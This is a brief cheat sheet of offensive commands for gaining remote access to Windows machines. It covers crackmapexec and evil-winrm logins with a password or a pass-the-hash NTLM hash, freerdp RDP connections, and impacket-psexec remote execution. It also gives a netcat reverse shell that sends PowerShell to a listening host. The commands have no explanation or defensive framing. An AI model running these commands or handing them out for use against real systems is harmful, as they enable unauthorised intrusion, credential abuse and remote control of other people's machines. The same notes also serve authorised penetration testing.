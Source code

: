 # Evil-WinRM
https://github.com/Hackplayers/evil-winrm
* * *
## Test
```bash
cme winrm -i IP/hostname -u $USERNAME -p $PASSWORD/-H $LM_HASH
```
## Port : 5985
```bash
evil-winrm -i IP/hostname -u $USERNAME -H $HASH

evil-winrm -i IP/hostname -u $USERNAME -p $PASSWORD
```

# RDP - freerdp

 ```bash
freerdp /u:$user /p:$password /v:$ip
```

# `Impacket-psexec`
PSEXEC like functionality example using RemComSvc

```bash
impacket-psexec '$user:$password@$ip'
psexec.py $user:$pass@$ip
```

# `netcat` 

```bash
# Windows
# server : 
nc.exe $ip $port -e powershell

# client : 
nc -lvnp $port
```
